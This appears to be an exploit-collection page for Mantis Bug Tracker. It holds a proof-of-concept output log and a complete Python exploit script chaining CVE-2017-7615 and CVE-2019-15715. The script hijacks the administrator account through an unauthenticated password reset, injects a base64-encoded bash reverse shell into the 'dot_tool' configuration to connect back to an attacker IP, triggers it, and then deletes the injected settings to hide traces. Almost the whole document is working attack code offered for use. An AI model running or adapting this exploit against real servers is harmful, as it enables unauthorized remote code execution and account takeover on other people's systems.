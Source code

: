 漏洞影響
--------

MantisBT 1.3.20 - 2.22.1

POC
---

    kali@kali:~/Desktop$ python exploit.py
    Successfully hijacked account!
    Successfully logged in!
    Triggering reverse shell
    Cleaning up
    Deleting the dot_tool config.
    Deleting the relationship_graph_enable config.
    Successfully cleaned up
    kali@kali:~/Desktop$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [192.168.116.135] from (UNKNOWN) [192.168.116.151] 43978
    bash: cannot set terminal process group (835): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/html/mantisbt-2.3.0$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

### CVE-2019-15715.py

    # Exploit Title: Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)
    # Date: 2020-09-17
    # Vulnerability Discovery: hyp3rlinx, permanull
    # Exploit Author: Nikolas Geiselman
    # Vendor Homepage: https://mantisbt.org/
    # Software Link: https://mantisbt.org/download.php
    # Version: 1.3.0/2.3.0
    # Tested on: Ubuntu 16.04/19.10/20.04
    # CVE : CVE-2017-7615, CVE-2019-15715
    # References:
    # https://mantisbt.org/bugs/view.php?id=26091
    # https://www.exploit-db.com/exploits/41890
    '''
    This exploit chains together two CVE's to achieve unauthenticated remote code execution.
    The first portion of this exploit resets the Administrator password (CVE-2017-7615) discovered by John Page a.k.a hyp3rlinx, this portion was modified from the original https://www.exploit-db.com/exploits/41890.
    The second portion of this exploit takes advantage of a command injection vulnerability (CVE-2019-15715) discovered by 'permanull' (see references).
    Usage:
    Set netcat listener on port 4444
    Send exploit with "python exploit.py"
    Example output:
    kali@kali:~/Desktop$ python exploit.py
    Successfully hijacked account!
    Successfully logged in!
    Triggering reverse shell
    Cleaning up
    Deleting the dot_tool config.
    Deleting the relationship_graph_enable config.
    Successfully cleaned up
    kali@kali:~/Desktop$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [192.168.116.135] from (UNKNOWN) [192.168.116.151] 43978
    bash: cannot set terminal process group (835): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/html/mantisbt-2.3.0$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    '''
    import requests
    from urllib import quote_plus
    from base64 import b64encode
    from re import split
    class exploit():
        def __init__(self):
            self.s = requests.Session()
            self.headers = dict()  # Initialize the headers dictionary
            self.RHOST = "192.168.116.151"  # Victim IP
            self.RPORT = "80"  # Victim port
            self.LHOST = "192.168.116.135"  # Attacker IP
            self.LPORT = "4444"  # Attacker Port
            self.verify_user_id = "1"  # User id for the target account
            self.realname = "administrator"  # Username to hijack
            self.passwd = "password"  # New password after account hijack
            self.mantisLoc = "/mantisbt-2.3.0"  # Location of mantis in URL
            self.ReverseShell = "echo " + b64encode(
                "bash -i >& /dev/tcp/" + self.LHOST + "/" + self.LPORT + " 0>&1") + " | base64 -d | /bin/bash"  # Reverse shell payload
        def reset_login(self):
            # Request # 1: Grab the account update token
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/verify.php?id=' + self.verify_user_id + '&confirm_hash='
            r = self.s.get(url=url, headers=self.headers)
            if r.status_code == 404:
                print "ERROR: Unable to access password reset page"
                exit()
            account_update_token = r.text.split('name="account_update_token" value=')[1].split('"')[1]
            # Request # 2: Reset the account password
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/account_update.php'
            data = "account_update_token=" + account_update_token + "&password=" + self.passwd + "&verify_user_id=" + self.verify_user_id + "&realname=" + self.realname + "&password_confirm=" + self.passwd
            self.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})
            r = self.s.post(url=url, headers=self.headers, data=data)
            if r.status_code == 200:
                print "Successfully hijacked account!"
        def login(self):
            data = "return=index.php&username=" + self.realname + "&password=" + self.passwd + "&secure_session=on"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/login.php'
            r = self.s.post(url=url, headers=self.headers, data=data)
            if "login_page.php" not in r.url:
                print "Successfully logged in!"
        def CreateConfigOption(self, option, value):
            # Get adm_config_set_token
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/adm_config_report.php'
            r = self.s.get(url=url, headers=self.headers)
            adm_config_set_token = r.text.split('name="adm_config_set_token" value=')[1].split('"')[1]
            # Create config
            data = "adm_config_set_token=" + adm_config_set_token + "&user_id=0&original_user_id=0&project_id=0&original_project_id=0&config_option=" + option + "&original_config_option=&type=0&value=" + quote_plus(
                value) + "&action=create&config_set=Create+Configuration+Option"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/adm_config_set.php'
            r = self.s.post(url=url, headers=self.headers, data=data)
        def TriggerExploit(self):
            print "Triggering reverse shell"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/workflow_graph_img.php'
            try:
                r = self.s.get(url=url, headers=self.headers, timeout=3)
            except:
                pass
        def Cleanup(self):
            # Delete the config settings that were created to send the reverse shell
            print "Cleaning up"
            cleaned_up = False
            cleanup = requests.Session()
            CleanupHeaders = dict()
            CleanupHeaders.update({'Content-Type': 'application/x-www-form-urlencoded'})
            data = "return=index.php&username=" + self.realname + "&password=" + self.passwd + "&secure_session=on"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/login.php'
            r = cleanup.post(url=url, headers=CleanupHeaders, data=data)
            ConfigsToCleanup = ['dot_tool', 'relationship_graph_enable']
            for config in ConfigsToCleanup:
                # Get adm_config_delete_token
                url = "http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_report.php"
                r = cleanup.get(url=url, headers=self.headers)
                test = split('<!-- Repeated Info Rows -->', r.text)
                # First element of the response list is garbage, delete it
                del test[0]
                cleanup_dict = dict()
                for i in range(len(test)):
                    if config in test[i]:
                        cleanup_dict.update({'config_option': config})
                        cleanup_dict.update({'adm_config_delete_token':
                                                 test[i].split('name="adm_config_delete_token" value=')[1].split('"')[1]})
                        cleanup_dict.update({'user_id': test[i].split('name="user_id" value=')[1].split('"')[1]})
                        cleanup_dict.update({'project_id': test[i].split('name="project_id" value=')[1].split('"')[1]})
                # Delete the config
                print "Deleting the " + config + " config."
                url = "http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_delete.php"
                data = "adm_config_delete_token=" + cleanup_dict['adm_config_delete_token'] + "&user_id=" + cleanup_dict[
                    'user_id'] + "&project_id=" + cleanup_dict['project_id'] + "&config_option=" + cleanup_dict[
                           'config_option'] + "&_confirmed=1"
                r = cleanup.post(url=url, headers=CleanupHeaders, data=data)
                # Confirm if actually cleaned up
                r = cleanup.get(url="http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_report.php",
                                headers=CleanupHeaders, verify=False)
                if config in r.text:
                    cleaned_up = False
                else:
                    cleaned_up = True
            if cleaned_up == True:
                print "Successfully cleaned up"
            else:
                print "Unable to clean up configs"
    exploit = exploit()
    exploit.reset_login()
    exploit.login()
    exploit.CreateConfigOption(option="relationship_graph_enable", value="1")
    exploit.CreateConfigOption(option="dot_tool", value=exploit.ReverseShell + ';')
    exploit.TriggerExploit()
    exploit.Cleanup()